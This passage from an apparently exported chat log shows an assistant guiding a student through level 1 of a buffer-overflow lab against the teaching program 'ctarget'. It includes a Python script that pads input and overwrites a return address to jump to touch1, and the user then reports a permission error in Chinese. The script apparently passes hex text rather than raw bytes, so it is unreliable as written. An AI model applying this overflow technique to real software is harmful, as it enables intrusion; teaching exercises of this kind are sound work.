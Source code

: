 5.  Test the exploit: Run the `ctarget` program with your exploit string as input. If successful, the program should jump to the `touch1` function and display a message indicating that level1 has been completed.
    

To automate the process, you can use a Python script to create the exploit string and pass it as input to the `ctarget` program. Here's an example script:

```python
import subprocess
import struct

buffer_size = 0x??  # Replace with the actual buffer size
touch1_addr = 0x????????  # Replace with the actual touch1 address

# Calculate the input length and create the exploit string
input_length = buffer_size + 8  # Assuming 8 bytes for the extra space
exploit_str = b'A' * input_length
exploit_str += struct.pack('<Q', touch1_addr)

# Run the ctarget program with the exploit string as input
cmd = f'./ctarget <<< {exploit_str.hex()}'
process = subprocess.run(cmd, shell=True, capture_output=True, text=True)
print(process.stdout)
```

Replace the `buffer_size` and `touch1_addr` values with the actual values you found in the `ctarget.txt` file, then run the script to test your exploit. If everything goes as planned, you should see a message indicating that you have successfully completed level1.

* * *

**You:**

import subprocess
import struct

buffer_size = 0x18  # Replace with the actual buffer size
touch1_addr = 0x40195d  # Replace with the actual touch1 address

# Calculate the input length and create the exploit string
input_length = buffer_size + 8  # Assuming 8 bytes for the extra space
exploit_str = b'A' * input_length
exploit_str += struct.pack('&lt;Q', touch1_addr)

# Run the ctarget program with the exploit string as input
cmd = f'./ctarget &lt;&lt;&lt; {exploit_str.hex()}'
process = subprocess.run(cmd, shell=True, capture_output=True, text=True)
print(process.stdout)
这个我保存在了re_level1.py中，我用命令./re_revel1.py运行，错误:bash: ./re_level1.py: 权限不够


* * *
